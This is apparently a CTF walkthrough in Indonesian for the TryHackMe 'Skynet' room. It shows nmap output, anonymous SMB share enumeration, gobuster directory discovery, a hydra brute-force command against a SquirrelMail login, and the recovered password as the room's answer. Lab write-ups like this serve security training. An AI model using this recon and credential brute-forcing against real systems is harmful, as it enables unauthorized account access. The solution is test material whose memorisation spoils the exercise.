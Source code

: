 # CTF Skynet
- TryHackMe Room: https://tryhackme.com/room/skynet
- IP Machine: 10.10.66.97

## Nmap Report
- Lakukan scanning dengan tool nmap menggunakan perintah: `nmap -sV -A <IP Machine>`

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.66.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 21:53 EDT
Nmap scan report for 10.10.66.97
Host is up (0.23s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 992331bbb1e943b756944cb9e82146c5 (RSA)
|   256 57c07502712d193183dbe4fe679668cf (ECDSA)
|_  256 46fa4efc10a54f5757d06d54f6c34dfe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: TOP PIPELINING UIDL SASL AUTH-RESP-CODE CAPA RESP-CODES
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: listed capabilities have post-login more Pre-login LOGINDISABLEDA0001 SASL-IR OK LOGIN-REFERRALS IDLE ID ENABLE IMAP4rev1 LITERAL+
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-09-07T02:03:36
|_  start_date: N/A
|_clock-skew: mean: 1h40m02s, deviation: 2h53m12s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2023-09-06T21:03:36-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 627.49 seconds
```

### Enumerasi SMB
- Gunakan perintah `smbclient -L <IP Machine>` untuk membuka list shares. Disini ditemukan user **anonymous** dan **milesdyson** pada SMB Server

- Buka file sharing dari user **anonymous** dengan perintah `smbclient //<IP Machine>/anonymous` lalu tekan enter jika dimintai password. Jika sudah terhubung, ketik `ls` untuk melihat list file dan directory


- Download file attention.txt dengan perntah `get attention.txt`

- Navigasi ke folder `logs`, disana terdapat 3 buah file log. Download semua file dengan perintah `mget *` dan ketik **y** untuk setiap konfirmasi. Selanjutnya keluar dari SMB Client dengan perintah `quit`

- Berikut ini adalah isi file **attention.txt**

- File **log1.txt** ternyata berisi wordlists yang digunakan untuk melakukan brute force

### Gobuster Report
- Baris perintah: `gobuster dir -u http://<IP Machine> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

- Ditemukan halaman **/squirrelmail** dari report gobuster. Buka halaman `http://<IP_Machine>/squirrelmail` di browser, maka langsung diarahkan ke halaman login squirrelmail

### Exploit
- Lakukan Inspek Element lalu pindah tab **Network** dan lakukan percobaan login

- Brute force akun user **milesdyson** dengan tool hydra dengan perintah `hydra -l milesdyson -P log1.txt <IP Machine> http-form-post '/squirrelmail/src/redirect.php:login_username=milesdyson&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown User or password incorrect.'`





- **Pertanyaan:** What is Miles password for his emails?
```sh
cyborg007haloterminator
```

